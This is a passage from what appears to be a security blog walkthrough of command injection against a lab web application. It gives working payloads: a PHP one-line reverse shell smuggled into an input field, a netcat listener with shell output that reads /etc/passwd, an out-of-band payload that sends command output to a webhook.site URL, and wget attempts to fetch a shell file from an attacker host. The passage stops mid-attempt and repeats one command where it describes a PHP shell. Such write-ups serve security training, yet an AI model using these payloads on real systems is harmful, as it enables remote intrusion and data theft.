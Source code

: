 1. Learn the full path of php it use 
   ~~~
   Input = ; which php; echo 'a'
   ~~~
   > User command: curl -I -s -L `; which bash; echo 'a'` | grep "HTTP/"  
   > Result: /usr/local/bin/php  
2. Netcat listen on designated port
   > Listening on 0.0.0.0 4444 …
3. Use one line reverse PhP shell
   ~~~
   Input = `; /usr/local/bin/php -r '$sock=fsockopen("<LHOST>",<LPORT>); exec("/bin/sh -i <&3 >&3 2>&3");'; echo 'a’`
   ~~~
4. Receive the connection.
   > Connection received on 172.18.0.4 36776  
   > /bin/sh: 0: can't access tty; job control turned off  
   > $ whoami  
   > www-data  
   > $ tail /etc/passwd  
   > news:x:9:9:news:/var/spool/news:/usr/sbin/nologin  
   > uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin  
   > proxy:x:13:13:proxy:/bin:/usr/sbin/nologin  
   > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
   > backup:x:34:34:backup:/var/backups:/usr/sbin/nologin  
   > list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin  
   > irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin  
   > gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin  
   > nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin  
   > _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    

## Example-2 Out of Bank Command Injection
In this case, the web application _doesn’t give us the response directly_, we need to direct and review it somewhere else.
1. Reuse the same syntax from previous example; we received Website OK, but the semi-colon is removed.
   ~~~
   google.com; ls
   ~~~
   > User command: Target: `google.com ls`  
   > Result: Website OK

2. Utilize the [webhook](https://webhook.site/) to receive the HTTP request. Insert our unique URL before the command:
   ~~~
   Input = https://webhook.site/8a2dda28-4ada-4424-889e-a911bd5e8489?`whoami`
   ~~~
2. Navigate to our unique url, we can find the command is executed and send to there.
   ![Executed Command](https://rencybersec.github.io/assets/img/githubpost/Commandi_1.png){: .mx-auto.d-block :}  
    
### Reverse Shell Connection
1. I tried to use `\n` and `wget` to download file from the server that host the reverse shell file. Then I realized even command was executed, it still can’t download the file
   ~~~
   Input = https://google.com \n wget <HOST_IP>:<PORT>/<File>
   ~~~
   > $ python3 -m http.server 8080  
   > Serving HTTP on 0.0.0.0 port 8080 (http[://]0.0.0.0:8080/) ...  
   > 172.18.0.3 - - [31/Jul/2025 07:42:38] code 404, message File not found  
   > 172.18.0.3 - - [31/Jul/2025 07:42:38] "HEAD /test HTTP/1.1" 404 -  
2. Then I tried to use php reverse shell to make the connection.  
   Same result as last step; command is executed, but shell isn’t established.
   ~~~
   Input = https://google.com \n wget <HOST_IP>:<PORT>/<File>
   ~~~